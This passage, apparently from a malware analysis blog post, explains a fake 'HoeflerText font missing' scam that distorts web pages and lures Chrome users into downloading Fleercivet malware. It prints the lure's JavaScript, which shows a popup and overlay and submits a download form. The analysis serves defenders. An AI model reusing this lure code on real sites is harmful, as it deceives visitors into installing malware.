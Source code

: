 The malicious code also replaces characters on the page to make it display incorrectly. It then suggests downloading the "missing" font called HoeflerText.  

When the 'Update' button is clicked, the following javascript function is triggered:

```
if (!!window.chrome && !!window.chrome.webstore) {

    function ue0() {
        document.getElementById('popup-container').style.display = 'block';
        document.getElementById('info1').style.display = 'none';
        document.getElementById('tabl1').style.display = 'none';
        document.getElementById('helpimg').style.display = 'block';
        document.getElementById('info2').style.display = 'block';
        document.getElementById('form_1d').submit();
    }
    function dy0() {
        document.getElementById('dm-overlay').style.display = 'block'
    }

    setTimeout(dy0, 1000);
} 

```

This script verifies that the user browser is indeed Chrome before being defined. It will show a green arrow pointing at the bottom of the browser to encourage users opening the malware.

<figure>
  <img src="/images/2017/Download-of-Fleercivet.png" alt="Downloading the malware after clicking on 'Update.'">
  <figcaption>Downloading the malware after clicking on 'Update.'</figcaption>
</figure>
